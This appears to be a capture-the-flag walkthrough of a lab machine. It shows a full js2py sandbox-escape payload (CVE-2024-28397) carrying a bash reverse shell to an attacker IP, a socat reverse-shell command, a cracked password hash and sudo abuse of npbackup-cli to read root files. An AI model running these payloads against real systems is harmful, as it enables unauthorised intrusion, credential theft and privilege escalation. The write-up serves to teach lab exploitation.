

# **Target Machine Walkthrough**

This report documents the full exploitation process of the target machine, structured in a professional **penetration testing style walkthrough**. It covers reconnaissance, enumeration, exploitation, credential access, lateral movement, privilege escalation, and flag capture.

## **🔍 Reconnaissance**

We begin with a full TCP port scan using **Nmap**:

```
nmap -p- -Pn 10.129.237.227 -v -T5 --min-rate 1000 --max-rtt-timeout 1000ms --max-retries 5 -oN nmap_ports.txt && \
sleep 5 && nmap -Pn 10.129.237.227 -sC -sV -v -oN nmap_sVsC.txt && \
sleep 5 && nmap -T5 -Pn 10.129.237.227 -v --script vuln -oN nmap_vuln.txt
```



## **📦 Application Enumeration**

[![][image2]](https://github.com/Ma*rven11/CVE-2024-28397-js2py-Sandbox-Escape)

We discover a `/download` endpoint allowing us to retrieve `app.zip`. After extraction:

```
unzip app.zip
cd app
cat app.py
```



Checking the dependencies in `requirements.txt`:



## **⚡ Exploitation – CVE-2024-28397 (js2py Sandbox Escape)**

The application leverages `js2py`, which is vulnerable to a sandbox escape (CVE-2024-28397). Reference: [GitHub – CVE-2024-28397](https://github.com/Marven11/CVE-2024-28397-js2py-Sandbox-Escape)

We adapt the PoC exploit to achieve a reverse shell:

```
let cmd = "bash -c 'bash -i >& /dev/tcp/10.10.15.30/4445 0>&1'"

let hacked, bymarve, n11
let getattr, obj

hacked = Object.getOwnPropertyNames({})
bymarve = hacked.__getattribute__
n11 = bymarve("__getattribute__")
obj = n11("__class__").__base__
getattr = obj.__getattribute__

function findpopen(o) {
    let result;
    for (let i in o.__subclasses__()) {
        let item = o.__subclasses__()[i]
        if (item.__module__ == "subprocess" && item.__name__ == "Popen") {
            return item
        }
        if (item.__name__ != "type" && (result = findpopen(item))) {
            return result
        }
    }
}

n11 = findpopen(obj)(cmd, -1, null, -1, -1, -1, null, null, true).communicate()
console.log(n11)
n1
```



## **🖥️ Reverse Shell & Stabilization**

Successful reverse shell connection established:



We stabilize the shell using socat:

```
chmod +x socatx4.bin
./socatx64.bin exec:'bash -li',pty,stderr,setsid,sigint,sane tcp:10.10.16.14:4444
```



## **🗄️ Database Discovery**

Inside the `instance` folder we discover a SQLite database:


The database contains user password hashes:



Identifying the hash format:


We successfully crack `marco’s` password hash:



## **👤 User Access**

We log in as `marco` with the cracked credentials



We obtain the `user flag` from Marco’s desktop

## **🔝 Privilege Escalation – npbackup-cli**

We identify a privilege escalation vector via `npbackup-cli`. Reference: [npbackup-cli PrivEsc](https://github.com/AliElKhatteb/npbackup-cli-priv-escalation)

We modify the exploit (line 11):



Transferred to the host and executed:



```
sudo /usr/local/bin/npbackup-cli -c npbackup.conf --backup
```

Finally, we dump the `root flag`:

```
sudo /usr/local/bin/npbackup-cli -c npbackup.conf --dump /root/root.txt --snapshot-id a42c804d
```

## **🏁 Results & Conclusion**

**Attack Path:**

* **Recon** → Identified `/download` endpoint.  
* **Enumeration** → Found `js2py` vulnerable.  
* **Exploitation** → CVE-2024-28397 (reverse shell).  
* **Database Enumeration** → Extracted Marco’s hash, cracked credentials.  
* **Privilege Escalation** → npbackup-cli exploit → root access.  
* **Flags** → Obtained both `user.txt` and `root.txt`.

**Outcome:** Successful full compromise of the machine.
